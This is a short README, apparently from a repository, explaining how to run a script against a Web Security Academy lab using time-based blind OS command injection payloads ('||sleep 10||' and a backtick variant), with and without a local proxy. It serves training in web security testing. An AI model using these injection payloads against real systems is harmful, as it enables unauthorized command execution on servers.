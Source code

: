 # How to run script.py

### 1. ||sleep 10||

No proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "test||sleep 10||"`

Proxy:
- `python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "test||sleep 10||" -p 127.0.0.1:8080`

### 2. \`sleep 10\`

No proxy:
- python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "test\\\`sleep 10\\\`"

Proxy:
- python3 script.py -u "https://0a4b003803f44a75c13da5e2009400df.web-security-academy.net" -c "test\\\`sleep 10\\\`" -p 127.0.0.1:8080
